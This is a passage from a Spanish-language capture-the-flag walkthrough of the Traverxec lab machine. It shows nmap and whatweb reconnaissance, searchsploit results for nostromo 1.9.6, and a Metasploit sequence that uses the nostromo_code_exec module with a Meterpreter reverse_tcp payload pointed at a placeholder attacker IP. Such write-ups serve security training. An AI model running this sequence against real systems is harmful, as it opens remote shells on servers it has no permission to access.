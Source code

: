 ```
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 10 13:20:10 2025 -- 1 IP address (1 host up) scanned in 12.40 seconds
```

Veremos que servidor web está corriendo con **whatweb**:

```sh
❯ whatweb 10.10.10.165
http://10.10.10.165 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nostromo 1.9.6], IP[10.10.10.165], JQuery, Script, Title[TRAVERXEC]
```

Está usando **Nostromo**, haremos una búsqueda rápida de exploits:

```sh
❯ searchsploit nostromo
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                                                                                                                  | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                                                                                                                | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                                                                                                                  | linux/remote/35466.sh
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Explotación

Usaremos **Metasploit** para explotar la vulnerabilidad con la siguiente secuencia de comandos una vez abierto **msfconsole**:

<pre><code>search nostromo
<strong>use exploit/multi/http/nostromo_code_exec
</strong>set rhosts 10.10.10.165
set target 1
set payload linux/x86/meterpreter/reverse_tcp
set lhost &#x3C;IP_ATACANTE>
exploit
</code></pre>
